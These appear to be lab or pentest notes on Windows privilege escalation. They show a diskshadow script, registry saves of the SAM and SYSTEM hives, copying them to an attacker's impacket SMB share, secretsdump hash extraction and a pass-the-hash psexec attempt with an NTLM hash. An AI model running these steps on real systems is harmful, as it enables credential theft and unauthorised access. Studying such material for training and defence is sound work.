 Let’s use `SeBackupPrivilege`.

I tried first copying `ntds` but it returned the following error:

![image.png](image%2017.png)

```bash
diskshadow.exe /s back_script.txt
```

```bash
set verbose on
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible
set context persistent
begin backup
add volume C: alias cdrive
create
expose %cdrive% E:
end backup
```

When creating `back_script.txt` in Linux and transferring first run :

```bash
unix2dos back_script.txt
```

![image.png](image%2018.png)

It doesn’t work for some reason.

```bash
reg save HKLM\SYSTEM SYSTEM.SAV
reg save HKLM\SAM SAM.SAV
```

File transfer:

```bash
sudo impacket-smbserver share -smb2support .

copy SAM.SAV \\192.168.45.159\share\SAM.SAV
copy SYSTEM.SAV \\192.168.45.159\share\SYSTEM.SAV
```

```bash
secretsdump.py -sam SAM.SAV -system SYSTEM.SAV LOCAL
```

```bash
impacket-psexec Administrator@$IP -hashes :608339ddc8f434ac21945e026887dc36
```

Trying to access the target using local admin hash doesn’t work.

![image.png](image%2019.png)

Let’s abuse `SeRestorePrivilege`.
